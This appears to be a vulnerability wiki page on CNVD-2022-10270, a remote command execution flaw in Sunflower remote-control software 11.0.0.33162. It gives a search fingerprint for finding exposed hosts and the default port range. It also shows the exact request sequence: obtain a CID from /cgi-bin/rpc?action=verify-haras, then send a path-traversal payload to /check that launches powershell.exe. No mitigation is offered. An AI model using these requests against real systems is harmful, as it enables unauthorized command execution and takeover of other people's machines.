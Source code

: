 ```yaml
---
Title: Sunflower check Remote command execution vulnerability CNVD-2022-10270
---
```


# Sunflower check Remote command execution vulnerability CNVD-2022-10270

## Vulnerability Description

After Sunflower obtains the CID by sending a specific request, it can call the check interface to implement remote command execution, resulting in the server permission being obtained.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">11.0.0.33162</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="Verification failure"</span>

## Vulnerability reappears

After opening the sunflower, it will open a certain port between 40000-65535 by default.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645007224265-6dd3bed6-0d66-433d-96db-2532796ded2a.png)

Send a request to obtain the CID

```javascript
/cgi-bin/rpc?action=verify-haras
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645007276844-29bf52d8-e4c4-4ece-8d9e-a5e2386de7c2.png)

Use the obtained verification_string as the CID field of the cookie to execute the command

```javascript
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645007355798-42ab03f8-8652-4daf-a4c3-29938ce2f000.png)